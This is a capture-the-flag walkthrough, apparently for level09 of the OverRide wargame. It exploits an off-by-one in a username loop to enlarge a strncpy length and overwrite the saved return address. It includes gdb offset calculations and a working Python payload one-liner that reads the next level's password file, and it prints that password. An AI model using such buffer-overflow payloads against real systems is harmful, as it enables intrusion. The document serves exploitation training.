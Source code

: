 # Walkthrough level09

We try to run the program:  

```bash
level09@OverRide:~$ ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: name
>: Welcome, name
>: Msg @Unix-Dude
>>: message
>: Msg sent!
```

With the code we can see that we do a strncpy with a value contained in a variable.    

```c
	strncpy(*buffer, msg, (int) *(*buffer + 180));
```

We must write a value at *buffer + 180. To do this, we can see that we can write 40 char. The difficulty is to identify that we can write 41 char instead of 40, because of 'i' must be <= 40.
Buffer[40] is the 41th char.  

```c
while (i <= 40 && username[i]) {
		(*buffer)[140 + i] = username[i];
		i++;
	}
```

Now we try to override the value at buffer[180]: 

```bash
r < <(python -c 'print("a" * 41)'; python -c 'print("b" * 200 + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1])')

--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------

Breakpoint 17, 0x000055555555491f in handle_msg ()
(gdb) x/xw $rbp-0xc
0x7fffffffe5c4:	0x00000061

```

We can see the value is 0x61 and we have write 97 char. (0x61 = 97):  

```bash
(gdb) x/64xg $rbp-0xc0
0x7fffffffe510:	0x6262626262626262	0x6262626262626262
0x7fffffffe520:	0x6262626262626262	0x6262626262626262
0x7fffffffe530:	0x6262626262626262	0x6262626262626262
0x7fffffffe540:	0x6262626262626262	0x6262626262626262
0x7fffffffe550:	0x6262626262626262	0x6262626262626262
0x7fffffffe560:	0x6262626262626262	0x6262626262626262
0x7fffffffe570:	0x0000000000000062	0x0000555555554c10
```

So we want to override this variable to write on saved RIP. We search the offset.  

```bash
(gdb) i f
Stack level 0, frame at 0x7fffffffe5e0:
 rip = 0x555555554924 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe5f0
 Arglist at 0x7fffffffe5d0, args: 
 Locals at 0x7fffffffe5d0, Previous frame's sp is 0x7fffffffe5e0
 Saved registers:
  rbp at 0x7fffffffe5d0, [rip at 0x7fffffffe5d8]

(gdb) p 0x7fffffffe5d8 - 0x7fffffffe510
$4 = 200
```

Lets exploit this:

```bash
level09@OverRide:~$ (python -c 'print("\xff" * 41)'; python -c 'print("b" * 200 + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1])'; cat -) | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
